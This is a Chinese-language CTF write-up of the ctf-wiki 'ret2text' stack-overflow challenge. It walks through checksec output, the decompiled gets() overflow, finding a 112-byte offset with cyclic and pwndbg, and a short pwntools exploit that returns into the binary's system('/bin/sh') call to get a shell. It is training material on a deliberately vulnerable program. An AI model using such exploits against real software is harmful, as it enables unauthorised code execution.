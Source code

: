 ```yaml
---
layout: post
title: CTF-PWN实例1（ret2text）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/1
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例1（ret2text）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text

## 程序保护：

```shell
$ checksec ret2text
```

```shell
	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这里和上一题唯一的区别在于开启了NX保护，因此我们不能在堆栈中写入shellcode。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets((char *)&v4);
  printf("Maybe I will tell you next time !");
  return 0;
}
```

这里依旧是gets()函数造成溢出。

### 二、cyclic和pwndbg判断偏移量

```shell
$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
$ gdb ret2text
........
pwndbg> r
Starting program: /home/dtuncle/ctf-challenges/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text 
There is something amazing here, do you know anything?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Maybe I will tell you next time !
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb6870 (_IO_stdfile_1_lock) ◂— 0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x62616163 ('caab')
 ESP  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
 EIP  0x62616164 ('daab')
─────────────────────────────────────[ DISASM ]──────────────────────────────────────
Invalid address 0x62616164

──────────────────────────────────────[ STACK ]──────────────────────────────────────
00:0000│ esp  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
01:0004│      0xffffcfa4 ◂— 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
02:0008│      0xffffcfa8 ◂— 'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
03:000c│      0xffffcfac ◂— 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
04:0010│      0xffffcfb0 ◂— 'iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
05:0014│      0xffffcfb4 ◂— 'jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
06:0018│      0xffffcfb8 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
07:001c│      0xffffcfbc ◂— 'laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
────────────────────────────────────[ BACKTRACE ]────────────────────────────────────
 ► f 0 62616164
   f 1 62616165
   f 2 62616166
   f 3 62616167
   f 4 62616168
   f 5 62616169
   f 6 6261616a
   f 7 6261616b
   f 8 6261616c
   f 9 6261616d
   f 10 6261616e
Program received signal SIGSEGV (fault address 0x62616164)
pwndbg> quit
$ cyclic -l 0x62616164
112
```

偏移量依然是112，这些例子主要是为了区分各种不同的保护机制，所以重点都不在于找出溢出的偏移，而是对应的保护机制如何利用获取到shell。

### 三、编写EXP

思路：

在这里明显不能直接在.bss写入shellcode，所以我们先在程序内查找是否能找到system函数，是否可以直接利用。

![](/img/post1img/dingweiSYS.jpg)

在0x0804863a这个地址将“/bin/sh”作为参数压入栈，并且下一步调用了_system函数，这就是最原始的shellcode。所以这一题很简单，只需要将返回地址覆盖成0x0804863A这个地址就行了。

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2text')

p.sendline('a'*112+p32(0x0804863A))   #p32()是将数字转换成字符串，这样写入到栈中会成为地址

p.interactive()

```

## 总结

这一题本来存在NX保护，但是由于程序本身存在system函数而且可以直接利用所以此题会显得特别简单。但是当没有可利用的system函数时将会是另外的利用方法，之后会介绍。
